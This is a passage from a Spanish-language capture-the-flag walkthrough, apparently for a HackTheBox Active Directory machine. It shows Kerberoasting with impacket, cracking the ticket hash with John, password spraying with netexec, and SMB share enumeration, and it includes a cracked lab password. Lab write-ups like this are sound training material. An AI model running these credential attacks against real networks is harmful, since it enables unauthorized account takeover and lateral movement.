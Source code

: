 Verificamos que obtenemos un TGS del usuario "web\_svc".

```bash
impacket-GetUserSPNs -dc-ip 10.10.11.129 search.htb/hope.sharp -request 2>/dev/null
```

<figure><img src="../../../../../.gitbook/assets/2565_vmware_ERH1VhWHue.png" alt=""><figcaption></figcaption></figure>

Procederemos a crackear el hash del TGS obtenido. Verificamos que hemos logrado crackear el hash y obtener la contraseña en texto plano.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```

<figure><img src="../../../../../.gitbook/assets/2566_vmware_KZtbOK7N1A.png" alt=""><figcaption></figcaption></figure>

Verificaremos que las credenciales son válidas para el usuario **web\_svc** a través de **netexec**.

```bash
nxc smb 10.10.11.129 -u 'web_svc' -p '@3ONEmillionbaby'
```

<figure><img src="../../../../../.gitbook/assets/2567_vmware_NaBIY60v2k.png" alt=""><figcaption></figcaption></figure>

## SMB Password Spray Attack (Netexec)

Procederemos a realizar un **Password Spray Attack** con la contraseña validada anteriormente sobre la lista de usuarios del dominio que disponemos para verificar si la contraseña es reutilizada en algún otro usuario.

Verificamos que efectivamente el usuario (edgar.jacobs) dispone de la misma contraseña.

```bash
nxc smb 10.10.11.129 -u users.txt -p '@3ONEmillionbaby' --continue-on-success
```

<figure><img src="../../../../../.gitbook/assets/2568_vmware_pngZSds6Td.png" alt=""><figcaption></figcaption></figure>

Nos guardaremos en el archivo "credentials.txt" todas las credenciales de los usuarios válidos que disponemos.

```bash
catnp credentials.txt
```

<figure><img src="../../../../../.gitbook/assets/2569_vmware_GrgSPg3BsU.png" alt=""><figcaption></figcaption></figure>

## SMB Enumeration

A través de la herramienta de **netexec** y el módulo de (spider\_plus), nos crearemos un esquema en formato JSON de la estructura del SMB para verificar archivos interesantes, directorios, etc.

```bash
netexec smb 10.10.11.129 -u 'Edgar.Jacobs' -p '@3ONEmillionbaby' -M spider_plus

catnp /tmp/nxc_hosted/nxc_spider_plus/10.10.11.129.json | jq
```
